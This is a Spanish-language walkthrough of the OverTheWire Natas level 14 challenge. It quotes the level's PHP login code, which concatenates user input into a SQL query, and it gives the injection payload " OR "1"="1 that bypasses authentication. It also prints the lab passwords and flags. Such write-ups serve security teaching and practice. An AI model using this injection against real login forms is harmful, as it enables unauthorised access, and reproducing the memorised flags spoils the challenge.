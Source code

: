 #Natas Level 13 → Level 14

Username: natas14

URL:      http://natas14.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas14.natas.labs.overthewire.org** 
- **Usuario    : natas14**
- **Contraseña : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra unos cmapos en el que tenemos que meter un **usuario** y **contraseña**

En principio parece un reto de **SQL Injection**

Vamos a ver el código fuente de la página:

```php
<body> 
<h1>natas14</h1> 
<div id="content"> 
<? 
if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas14', '<censored>'); 
    mysql_select_db('natas14', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { 
            echo "Successful login! The password for natas15 is <censored><br>"; 
    } else { 
            echo "Access denied!<br>"; 
    } 
    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
Password: <input name="password"><br> 
<input type="submit" value="Login" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body>
```

Analizando el código podemos observar como:

- Se realiza una conexión a una base de datos **Mysql** 
- Con el usuario : **natas14**
- Selecciona la base de datos **natas14**
- Para consultar el **Usuario** y **Contraseña** que hemos introducido con el valor de la **Base de Datos** o **BBDD**

Probamos si los campos de **usuario** y **contraseña** son **injectables** a código **SQL**

Solamente viendo el código, sabemos que utiliza **concatenación** de strings que ya nos indica un posible fallo de seguridad:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```
Probamos si los parámentros son injectable y ver si nos da algún error

```html
Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/natas/natas14/index.php on line 24
```

En el ejemplo anterior he puesto ** natas14" **, el **usuario** + ** " ** (comilla doble) como argumento en el campo **username** y nos ha salido error.

Con esto ya sabemos que es injectable a código **SQL** así que ahora nos toca trastear con la **$query** de arriba para que nos devuelva la contraseña

Vamos a analizar la **$query**

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```

Sabemos que el usuario tiene que ser **natas15** pero no sabemos cual es la contraseña de ese usuario.

Tenemos que conseguir que este campo sea **True** para hacer un **bypass** y así obtener la contraseña:

```sql
and password=\"".$_REQUEST["password"]."\"";    <- Tiene que ser = True
```

Como ya sabemos algo de **SQL** (y sino lo aprendemos :smile:) tenemos que pasarle al campo **$_REQUEST["password"]** el valor:

```sql
" OR "1"="1
```

Para que la consulta completa quede de la siguiente manera:

```sql
and password="" OR "1"="1";
```

La consulta anterior mirará si algunos de los dos valores nos devuelve un **True**. 

En este caso **1=1** nos devuelve **True** por lo que ignora **password=''** y hace la consulta completa con el usuario **natas15**

```sql
$query = "SELECT * from users where username="natas15" and  password="" OR "1"="1"; "; 
```

Vamos al formulario de la página anterior y ponemos eso valores:

```html
Usuario: natas15
Password: " OR "1"="1 
```

Pulsamos el botón de enviar y nos muestra un mensaje de **Successful login!** :smile: :beers:

```html
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

**FLAG** = {AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J}












